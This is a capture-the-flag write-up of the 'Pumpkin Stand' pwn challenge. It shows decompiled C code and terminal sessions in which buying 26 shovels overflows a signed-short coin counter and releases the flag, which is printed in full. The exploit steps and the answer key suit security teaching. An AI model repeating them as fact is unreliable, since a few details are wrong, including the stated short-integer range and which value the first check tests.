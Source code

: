 ```yaml
---
layout: default
title: Pumpkin Stand
---
```


# [Hack The Boo](index.md) - Pwn - Pumpkin Stand
**Difficulty:** Easy

> This time of the year, we host our big festival and the one who craves the pumpkin faster and make it as scary as possible, gets an amazing prize! Be fast and try to crave this hard pumpkin!

We are provided a binary.

Decompiling the binary with Ghidra, we see that the application sticks us in 4 `while` loops, each with it's own `if` statement that will break out of the loop if certain criteria are met.

```c
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          menu();
          __isoc99_scanf(&DAT_0010132b,&menu_item_selection);
          printf("\nHow many do you want?\n\n>> ");
          __isoc99_scanf(&DAT_0010132b,&quantity_selection);
          if (0 < quantity_selection) break;
          printf("%s\n[-] You cannot buy less than 1!\n",&DAT_0010134a);
        }
        pumpcoins = pumpcoins -
                    quantity_selection *
                    (short)*(undefined4 *)((long)&values + (long)(int)menu_item_selection * 4);
        if (-1 < pumpcoins) break;
        printf("\nCurrent pumpcoins: [%s%d%s]\n\n",&DAT_00100e80,(ulong)(uint)(int)pumpcoins);
        printf("%s\n[-] Not enough pumpcoins for this!\n\n%s",&DAT_0010134a,&DAT_00100e78);
      }
      if (menu_item_selection != 1) break;
      printf("\nCurrent pumpcoins: [%s%d%s]\n\n",&DAT_00100e80,(ulong)(uint)(int)pumpcoins);
      puts("\nGood luck crafting this huge pumpkin with a shovel!\n");
    }
    if (0x270e < pumpcoins) break;
    printf("%s\n[-] Not enough pumpcoins for this!\n\n%s",&DAT_0010134a,&DAT_00100e78);
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  flag_file_contents = fopen("./flag.txt","rb");
  if (flag_file_contents != (FILE *)0x0) {
    fgets((char *)&local_48,0x30,flag_file_contents);
    printf("%s\nCongratulations, here is the code to get your laser:\n\n%s\n\n",&DAT_00100ee3,
           &local_48);
    exit(0x16);
  }
```

If we break out of all of the loops, it will show us the flag.

From inner-most to outer-most, the criteria that we need to meet to break out of the loops are:
- The menu item we select must be greater than `0`
- We must have more than `-1` coins
- The menu item we select must not equal `1`
- Our coins must be greater than `9998` (`0x270e` in hex = `9998` in decimal)

We can see that the math used to calculate "pumpcoins" each loop iteration is as follows:
```c
pumpcoins = pumpcoins - quantity_selection * (short)*(undefined4 *)((long)&values + (long)(int)menu_item_selection * 4);
```

This looks a bit.. wonky... but this looks like it'll be what we need to abuse to break out of the loops.

The new coin value is calculated regardless of if we have enough coins or not, so if we continue to buy shovels, we quickly go into the negative.
The coin value is a signed small integer, meaning it can store values between `–32,767` and `32,767`. If we get this value over `32767` or under `-32767`, it will wrap around - `32767 + 1` will get us `-32767`, and vice-versa.

```
Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 1

How many do you want?

>> 2

Current pumpcoins: [-1337]


[-] Not enough pumpcoins for this!


Current pumpcoins: [-1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>>
```

No matter what quantity we select, if we choose option 2 - the laser - our coins get reset to zero.

We can easily get our coin count above 9998 by buying enough shovels to cost more than 32767 coins. 26 shovels is just enough for this, giving us 32111 coins.

```
Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 1

How many do you want?

>> 26

Current pumpcoins: [32111]


Good luck crafting this huge pumpkin with a shovel!


Current pumpcoins: [32111]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>>
```

We can see the string `Good luck crafting this huge pumpkin with a shovel!`, so we know we're in the second-last loop - only one more to break out of and we'll get the flag.

Selecting option 1 will only keep us in the loop - we could potentially stay here forever wrapping the coin amount from negative to positive... that is, if the program didn't automatically kick us out after about 2 minutes.
Selecting option 2 will reset our coins to zero.
Selecting any other small integer will exit the last loop, keeping our coin values the same so that we're still breaking out of the other inner loops. Selecting menu option 3, quantity 1, from the menu will get us the flag.

```

                                          ##&
                                        (#&&
                                       ##&&
                                 ,*.  #%%&  .*,
                      .&@@@@#@@@&@@@@@@@@@@@@&@@&@#@@@@@@(
                    /@@@@&@&@@@@@@@@@&&&&&&&@@@@@@@@@@@&@@@@,
                   @@@@@@@@@@@@@&@&&&&&&&&&&&&&@&@@@@@@&@@@@@@
                 #&@@@@@@@@@@@@@@&&&&&&&&&&&&&&&#@@@@@@@@@@@@@@,
                .@@@@@#@@@@@@@@#&&&&&&&&&&&&&&&&&#@@@@@@@@@@@@@&
                &@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&&@@@@@@@@@&@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                .@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                 (@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@.
                   @@@@@@@@@@@@@@&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                    ,@@@@@@@@@@@@@&&&&&&&&&&&&&@@@@@@@@@@@@@
                       @@@@@@@@@@@@@&&&&&&&&&@@@@@@@@@@@@/

Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 1

How many do you want?

>> 26

Current pumpcoins: [32111]


Good luck crafting this huge pumpkin with a shovel!


Current pumpcoins: [32111]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 3

How many do you want?

>> 1

Congratulations, here is the code to get your laser:

HTB{1nt3g3R_0v3rfl0w_101_0r_0v3R_9000!}


Connection closed by foreign host.
```

# Takeaways
- When writing a program that handles money, ensure that the math in your program makes logical sense based on your scenario.
